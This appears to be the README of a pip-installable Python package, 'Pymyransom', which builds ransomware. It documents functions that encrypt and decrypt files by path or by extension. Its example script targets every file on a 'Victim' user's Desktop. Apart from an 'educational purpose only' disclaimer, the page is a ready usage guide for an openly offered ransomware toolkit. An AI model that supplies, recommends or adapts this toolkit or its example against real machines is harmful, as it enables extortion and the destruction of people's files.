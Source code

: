 # Pymyransom

## New in v0.4.1
Updated description

## Before Introducing

PYMYRANSOM **ONLY** CAN BE USED FOR EDUCATIONAL PURPOSE!!!

## What is Pymyransom?

Pymyransom is inspired by https://github.com/marcosValle/RansPy/blob/master/enc.py, I changed this code for making Ransomwares.

## How to install Pymyransom?

To install pymyransom, please type 
```pip install pymyransom```.

## How to use Pymyransom?

### makeMyRansomware

Usage : ransomware_name = makeMyRansomware(your_extension, key, username, passFile)\
\
your_extension = ".Example" : Encryption Extension\
key = b'keyfor16bytes123' : Binary key for encryption\
username=getpass.getuser() : PC's username\
passFile=None : Pass a specific file

### Encryptor

Usage : ransomware_name.Encryptor(startPath)\
startPath : Path to encrypt

### Decryptor

Usage : ransomware_name.Decryptor(startPath)\
\
startPath : Path to decrypt

### Encrypt_Some_Ext

Usage : ransomware_name.Encrypt_Some_Ext(startPath)

Encrypts only extensions in extlist.\
\
startPath : Path to encrypt some extensions\
extlist=[".txt", ".mp3"] : Extensions for encryption

### Decrypt_Some_Ext

Usage : ransomware_name.Decrypt_Some_Ext(startPath)

Decrypts only extensions in extlist.\
\
startPath : Path to encrypt some extensions\
extlist=[".txt", ".mp3"] : Extensions for encryption

### Example Code

```python
import pymyransom
Victim = pymyransom.makeMyRansomware(your_extension=".Example")
startpath = 'c:\\Users\\'+Victim.username+'\\Desktop\\**' #Used glob to encrypt all files
Victim.Encryptor(startpath)
```

## Special Thanks
https://github.com/marcosValle/, https://github.com/kevin5871/, And you!
